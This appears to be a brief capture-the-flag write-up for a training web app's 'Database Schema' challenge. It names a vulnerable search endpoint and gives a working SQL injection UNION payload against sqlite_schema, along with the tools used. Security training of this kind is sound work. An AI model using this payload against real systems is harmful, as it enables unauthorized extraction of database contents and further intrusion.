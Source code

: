 # Database Schema

Exfiltrate the entire DB schema definition via SQL Injection.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings
- Burpsuite
- Cyberchef

# Solve

From burpsuite, we know that `/rest/products/search?q=` is the vulnerable endpoint and the `?q=param` is the vulnerable parameter.
Send this payload as the parameter, but first encode it with url encoding

```
test')) UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, sql FROM sqlite_schema--
```

![burpsuite](../../../assets/database-schema-1.png)